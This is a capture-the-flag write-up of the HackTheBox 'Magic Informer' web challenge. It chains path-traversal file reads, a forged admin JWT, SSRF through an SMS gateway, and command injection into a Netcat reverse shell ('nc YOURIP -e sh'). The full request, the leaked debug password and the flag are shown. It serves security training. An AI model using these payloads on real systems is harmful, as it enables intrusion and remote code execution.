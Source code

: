 <!-- @format -->

# The Magic Informer

CTF Event: HTB University CTF
Category: Web
Difficulty: Easy
Platform: HackTheBox
Status: Unposted
Tags: JWT, LFI, SSRF, command-injection

## Description

> The Magic Informer is the only byte-sized wizarding newspaper that brings the best magical news to you at your fingertips! Due to popular demand and bold headlines, we are often targeted by wizards and hackers alike. We need you to pentest our news portal and see if you can gain access to our server.

## Steps

Opening the URL for the challenge in the browser reveals what looks like a newspaper with a “WE ARE HIRING!” button at the bottom

![Untitled](The%20Magic%20Informer/Untitled.png)

which redirects us to the `/register` page to create an account and login with that account which returns a JWT as a cookie and redirects us to `/dashboard` which contained a form to save our information as well as upload a doc/docx file attempting to upload a file will return the file hash and append `.docx` to it

![Untitled](The%20Magic%20Informer/Untitled%201.png)

and a link will appear to `/download?resume=FILEHASH.docx` which looked very unsafe way to download a file.

attempting replace the filehash.docx with a random string will return that the file does not exist in the directory `/app/uploads/`

![Untitled](The%20Magic%20Informer/Untitled%202.png)

and just like that we have a local file inclusion vulnerability that we can use to download the source code for the server with the payload `/download?resume=....//index.js` which will download the JavaScript file from which we figure that the file `/app/helpers/JWTHelper.js` contains the functions to sign and verify the cookies

```jsx
import jwt from "jsonwebtoken";
import crypto from "crypto";
const APP_SECRET = crypto.randomBytes(69).toString("hex");

const sign = (data) => {
	data = Object.assign(data);
	return jwt.sign(data, APP_SECRET, { algorithm: "HS256" });
};

const decode = async (token) => {
	return jwt.decode(token);
};

export { sign, decode };
```

and that was when we noticed that the decode function does not use the `APP_SECRET` to verify the token which means we can forge our own JWT and login as admin by changing the username field in the JWT to admin `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTg2NTAzfQ.1xFGCHkALzoN7pZngGUENHSURbA82bejywPMXzZSqYE`

which will give us access to the admin panel at `/admin` that contains a SQL prompt that seems to be only accessible from localhost.

we can also find an SMS gateway that seems to send HTTP requests

![Untitled](The%20Magic%20Informer/Untitled%203.png)

which we can use to make a server-side request to localhost and execute the SQL query. However, the SQL Prompt requires a DEBUG_PASS which can be downloaded using our previous LFI exploit at `/download?resume=....//....//debug.env` which contained the debug pass `DEBUG_PASS=CzliwZJkV60hpPJ`

we then constructed a request to the localhost SQL exec route that contained a payload to run the SQL query and then chain a Netcat command to spawn a reverse shell

![Untitled](The%20Magic%20Informer/Untitled%204.png)

```
POST /api/sms/test HTTP/1.1
Host: SERVERIP:SERVERPORT
Content-Length: 470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://SERVERIP:SERVERPORT
Referer: http://SERVERIP:SERVERPORT/sms-settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTg2NTAzfQ.1xFGCHkALzoN7pZngGUENHSURbA82bejywPMXzZSqYE
Connection: close

{"verb":"POST","url":"http://127.0.0.1:1337/debug/sql/exec","params":"{\"sql\":\"select * from users;' `nc YOURIP -e sh` #\",\"password\":\"CzliwZJkV60hpPJ\"}","headers":"Content-Type: application/json\nAuthorization: Basic YWRtaW46YWRtaW4=\nCookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTg2NTAzfQ.1xFGCHkALzoN7pZngGUENHSURbA82bejywPMXzZSqYE","resp_ok":"<status>ok</status>","resp_bad":"<status>error</status>"}
```

which spawns a reverse shell and by executing `ls` at the root dir we will find a file called `readflag` which when executed will reveal the flag to us :D

![Untitled](The%20Magic%20Informer/Untitled%205.png)

## Flag

`HTB{br0k3n_4u7h_55RF_4s_4_s3rv1c3_d3bug_ftw}`
